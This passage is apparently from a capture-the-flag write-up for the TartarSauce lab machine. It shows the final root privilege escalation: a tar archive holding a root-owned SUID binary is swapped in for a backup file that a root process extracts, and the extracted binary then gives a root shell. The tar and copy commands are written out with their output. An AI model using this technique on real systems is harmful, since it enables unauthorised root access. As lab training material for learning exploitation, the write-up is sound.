 Then, move this into `/tmp/var/www/html` and `tar` the entire folder.

```bash
$ tar -zcvf suid.tar.gz var/
var/
var/www/
var/www/html/
var/www/html/suid
```

Transfer this to the victim machine. Afterwards, head to the `/var/tmp` folder and wait for the backup file to appear. It should be something like `.e105819...`. Then we just need to copy the contents of our malicious `tar` file, overwriting the original backup file.

```bash
cp /tmp/suid.tar.gz .25388a3009d9ee5b7ae704e609c726e46647f748
```

Then, we can view the `/var/tmp/check/var/www/html` folder to find our SUID binary:

```
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls -la
total 24
drwxr-xr-x 2 onuma onuma  4096 May  2 11:33 .
drwxr-xr-x 3 onuma onuma  4096 May  2 11:30 ..
-rwsr-xr-x 1 root root 15020 May  2 11:32 suid
```

Then just execute it and it we would get a `root` shell. Rooted!&#x20;
